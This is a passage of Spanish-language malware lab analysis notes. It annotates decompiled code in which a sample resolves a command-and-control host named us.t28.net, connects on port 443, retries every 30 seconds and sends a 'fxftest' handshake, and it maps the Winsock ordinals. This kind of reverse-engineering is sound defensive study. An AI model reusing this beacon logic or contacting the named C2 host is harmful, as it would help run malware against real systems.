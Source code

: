 - _DAT_0040aa72 = Ordinal_9(_DAT_0040aa98);  
  → sin_port = htons(PORT).  
  Ordinal_9 = htons.  
  _DAT_0040aa98 almacena el puerto (en este lab es 443 → 0x01BB).  

- _DAT_0040aa74 = Ordinal_11(pbVar5);  
  → sin_addr.s_addr = inet_addr(ip_str).  
  Ordinal_11 = inet_addr.  
  pbVar5 apunta a la cadena con la IP del C2 (resuelta antes desde us.t28.net con gethostbyname o similar).

- Intenta conectar con el C2:
    - iVar3 = Ordinal_4(_DAT_0040aa80, &_DAT_0040aa70, 0x10);  
      Ordinal_4 = connect.  
      _DAT_0040aa80 es el SOCKET que creó antes con socket().  

    - if (iVar3 == -1) { Ordinal_3(_DAT_0040aa80); Sleep(30000); local_8 = 0xffffffff; }  
      → Si connect falla: cierra el socket (Ordinal_3 = closesocket), duerme 30 s y marca error para reintentar.

**Mapa de ordinals usados:**
- Ordinal_23 → socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) (se hizo antes).
- Ordinal_9 → htons.
- Ordinal_11 → inet_addr.
- Ordinal_4 → connect.
- Ordinal_3 → closesocket.
- Ordinal_19 → send (handshake “fxftest”).
- Ordinal_16 → recv (respuesta/opcode).


## 4) Handshake obligatorio “fxftest” (0040162E–004016A4)